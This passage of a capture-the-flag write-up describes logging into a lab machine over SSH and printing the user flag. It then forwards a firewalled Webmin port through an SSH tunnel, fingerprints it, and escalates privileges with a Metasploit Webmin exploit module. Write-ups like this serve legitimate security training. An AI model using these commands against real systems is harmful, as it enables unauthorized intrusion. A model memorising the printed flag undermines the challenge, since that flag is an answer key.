 - **From there we attempted to access the SSH server we found earlier with these credentials.**
## SSH (22)
---
- **The credentials previously found allowed us to access the SSH server.** 
- **We were immediately greeted with a flag:** 
	- **`user.txt:649ac17b1480ac13ef1e4fa579dac95c`**

- **In order to expose services, we will be using reverse SSH tunnels:**
- **We can use the `ss` command in order to see what socket connections are running:**
```bash
ss -tulpn
```

- **We received the following results, which expose a service running on port 10000 (blocked via firewall rules from the outside):**
```bash
Netid  State      Recv-Q Send-Q          Local Address:Port                         Peer Address:Port              
udp    UNCONN     0      0                           *:68                                      *:*                  
udp    UNCONN     0      0                           *:10000                                   *:*                  
tcp    LISTEN     0      128                         *:22                                      *:*                  
tcp    LISTEN     0      80                  127.0.0.1:3306                                    *:*                  
tcp    LISTEN     0      128                         *:10000                                   *:*                  
tcp    LISTEN     0      128                        :::22                                     :::*                  
tcp    LISTEN     0      128                        :::80                                     :::* 
```

- **Thus, we used an SSH tunnel in order to expose that port to us locally:**
```bash
ssh -L 10000:localhost:10000 agent47@10.10.71.155 #From attacking machine
```

- **We came across a CMS (Webmin), we tried to fingerprint it first by using `whatweb` in order to gather information on the target:**
```bash
whatweb http://localhost:10000
```

- **As a result:**
```bash
http://localhost:10000 [200 OK] Cookies[testing], HTTPServer[MiniServ/1.580], IP[::1], Script[text/javascript], Title[Login to Webmin]
```

- **Now we tried to see if there is any exploit available on Metasploit in order to elevate our current privileges up to root.**
# Privilege Escalation 
---
- **We launched Metasploit and executed the following commands: 
```bash
msfconsole 
search webmin
use unix/webapp/webmin_show_cgi_exec #we used info beforehand 
show options
# we set the required options
run
```
	-Note: We tried many exploits before finding a successful one. 
